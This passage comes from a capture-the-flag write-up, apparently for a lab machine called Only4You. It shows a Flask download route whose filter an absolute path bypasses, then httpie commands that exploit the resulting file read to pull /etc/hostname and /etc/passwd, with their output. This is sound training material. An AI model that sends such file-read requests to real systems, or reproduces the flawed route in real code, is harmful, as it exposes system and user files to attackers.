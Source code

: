 
## Foothold

---

The `/source` endpoint downloads the source code for the beta site. Based on the structure looks like a flask application.

```bash
> ls -la
.rw-r--r-- 4.4k kali 29 Nov  2022 app.py
drwxr-xr-x    - kali  4 Dec  2022 static
drwxr-xr-x    - kali  1 Nov  2022 templates
.rw-r--r-- 1.7k kali  3 Nov  2022 tool.py
drwxr-xr-x    - kali  1 Nov  2022 uploads
```

### File Read

The download route can potentially be used to read files using the `image` parameter. Although path traversal won't succeed because of input sanitization, the filters can be bypassed with an absolute path due to the presence of `os.path.join`.

{{< highlight bash "hl_lines=5 9" >}}

@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image)
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)

{{< /highlight >}}

As suspected, its vulnerable to LFI with an absolute path. Querying `/etc/hostname` returns `only4you`.

```bash
> http --form -pb POST beta.only4you.htb/download image='/etc/hostname'
only4you
```

Identified a couple of additional users by examining the `/etc/passwd` file for entries with login shells.

```bash
> http --form -pb POST beta.only4you.htb/download image='/etc/passwd' | grep sh$
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```
